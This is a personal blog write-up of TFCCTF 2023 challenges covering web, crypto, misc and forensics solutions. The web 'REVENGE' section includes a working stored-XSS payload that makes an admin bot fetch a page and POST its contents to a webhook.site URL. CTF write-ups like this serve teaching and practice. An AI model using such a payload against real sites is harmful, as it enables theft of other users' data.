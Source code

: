 ```yaml
---
title: "TFCCTF 2023 Writeup"
date: 2023-07-30T09:16:29-07:00
description: The TFCCTF 2023 writeup. 2 web, 1 crypto, 1 misc
tags:
  - ctf
showTableOfContents: true
showCover: false
---
```


[The Few Chosen](https://ctf.thefewchosen.com/) hosted their third annual Capture The Flag (CTF) event. A lot of teams participated. It was very interesting and had a lot of solving them. To me, this was a great educational CTF and beginner friendly.

## web/BABY DUCKY NOTES
* solved
* solves: 443
* description: Quack quack! Try and huack me!

The challenge was a note taking web app. Users can view other people's posts but posts can be hidden. The flag was in the `admin`'s first post. This one was easy since the admin post was not hidden. Simply sign up and view the `admin`'s post 

```python
    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            0
    );
    ''')
```

{{< figure
    src="ducky-1.png"
    alt="A screenshot of the BABY DUCKY NOTES challenge"
>}}

Then we get the flag `TFCCTF{Adm1n_l0St_h1s_m1nd!}`

## web/BABY DUCKY NOTES: REVENGE
* solved
* solves: 175
* description: Quack quack! Try and huack me! Again!

The challenge has patched the previous issue and made the post hidden. I tried to see if there was a way to do SQL injection, no luck. I tried to see if I can forge the cookie to pretend I was the `admin`. I found [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) that can fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. This time the secret key was random so I couldn't forge it. It was fun to play around with the idea.

```python
app.secret_key = os.urandom(30).hex()
```

The app has a way to report a user and a bot will visit that user's post page. This can be used to our advantages. If we can somehow xss my own user's page then I can navigate to admin's own page to steal the flag.

```html
<p> {{post.get('content') | safe}} </p>
```
This code is from the post template. The usage of `safe` means that Flask will not sanitize the post content which allows us to XSS. This was my payload. It navigates to admin's page and relay the HTML response to the webhook site in the body for me.

```html
<script>
  fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(res => {
    fetch('https://webhook.site/f87a15ba-36e1-4b45-a310-53dd5247a133', {method: 'POST', body: res});
  })
</script>
```

{{<figure
    src="ducky-2.png"
    alt="A screenshot of the response in webhook with flag in the body"
>}}

Then we get the flag `TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`


## crypto/MAYDAY
* solved
* solves: 651
* description: We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

The message reads

```
Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven
```

This is the phonetic spelling. Just change dash and number words to `-` and numbers, and first letter of each word. You get the flag `TFCTF{WH4T-AR3-YOU-S1NKING-4B0U7}`

I found out that there is a website that for this decoding: https://cryptii.com/. Select "Spelling alphabets". A pretty cool tool. It seems similar to cyberchef.


## misc/Discord Shenanigans V3
* solved
* solves: 146
* description: Oh, look who's back for more chaotic fun! The annual wild ride of DISCORD SHENANIGANS V3 is live, and this time we're serving a delicious dish of digital disorder, courtesy of our mischievous Discord bot. For those with a discerning eye and a knack for unscrambling the scrambled, this game is your pixelated playground. The flag, you ask? Well, it's tucked away in a place that's right in front of you, yet often overlooked. Seek the unseen, unravel the unexpected, and let the shenanigans begin!

The flag was in the discord bot's profile picture. Open in a new tab to see the flag.

{{<figure
    src="discord.png"
    alt="The discord bot's profile picture with the flag"
    width="20%"
>}}


## forensics/DOWN BAD
* not solved
* solves: 238
* description: The flag is right there!

You get a png file but cannot be opened. It seems like something is wrong with the file. Using `exiftool` does not tell me much. It says it was made with `http://www.pdf-tools.com` so I wasted sometime to see if I can convert png to pdf or vise versa.

Use `binwalk` says it's a PNG and Zlib compressed. All PNG are Zlib compressed so looks like there are not hidden file inside the image.

Use `pngcheck` to see what's wrong.

```bash
➜  DOWN-BAD pngcheck -c down_bad.png
down_bad.png  CRC error in chunk IHDR (computed 1d9c52c0, expected a9d5455b)
ERROR: down_bad.png
```

After correctly the CRC, the image is showing but does not show the flag.


<!-- Use static image path because of the PNG has too incorrect dimension  -->
{{< figure
    src="/images/2023-07-30/down_bad_fixed.png"
    alt="The down bad image after fixing CRC"
    width="30%"
>}}

I tried a couple of other tools, `strings`, `stegsolve` but nothing turned out to be useful.

After the event, I found out, instead of fixing the CRC, we should be fixing the height to match the CRC. CRC is calculate based on header information. So we can find out the original height by brute forcing CRC check.

I found this [script: png-unhide](https://github.com/ryanking13/png-unhide) later. It detects the real height and fix it for you.

```bash
➜  DOWN-BAD python3 checker.py down_bad-fixed.png
[*] Height in the IHDR: 0x490
[*] Real Height: 0x540
[!!] Wrong size in the IHDR
Automatically fix the IHDR? (Y/N)y
[*] Fixed file saved to down_bad-fixed_fixed.png
```

{{< figure
    src="down_bad_flag.png"
    alt="The down bad image with flag"
    width="30%"
>}}

Someone also mentioned https://fotoforensics.com/ in the discord chat where you can see hidden rows in a file. It is a nice tool.

This challenge reminded of the `papapa` from Google's 2023 CTF. Both are changing the dimension to find out the true size of the image. I might look into the actual spec of both PNG and JPEG later. 



## crypto/DIZZY
* not solved
* solves: 411
* description: Embark on 'Dizzy', a carousel ride through cryptography! This warmup challenge spins you around the basics of ciphers and keys. Sharpen your mind, find the flag, and remember - in crypto, it's fun to get a little dizzy!

Message: 
```
T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24
```

I forgot about the super useful https://www.dcode.fr/ site that can help you guess the cipher for you. Putting the message in it guess the flag to be using "Letters Positions" `TFCCTF{th_chllng_mks_m_dzzy_;d}` but this was incorrect.

The letters positions encryption is straightforward. The word/string to be encoded is decomposed of characters/letters. For example: `T4` means `T` is in position `4`.

The actual message has 40 segments meaning 40 characters. `dcode` only returned 31 characters. We can write a simple script to decode this.

```python
cipher = 'T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24'.split()
flag = [''] * len(cipher)
for pair in cipher:
    char, pos = pair[0], int(pair[1:])
    flag[pos] = char

print(''.join(flag))
```

The script returns the flag `TFCCTF{th15_ch4ll3ng3_m4k3s_m3_d1zzy_;d}`

## Conclusion

This was a great CTF to me. The site aesthetics was great. The warmup challenges were great for beginner like me to ease into the event. Love see some other events for like this.

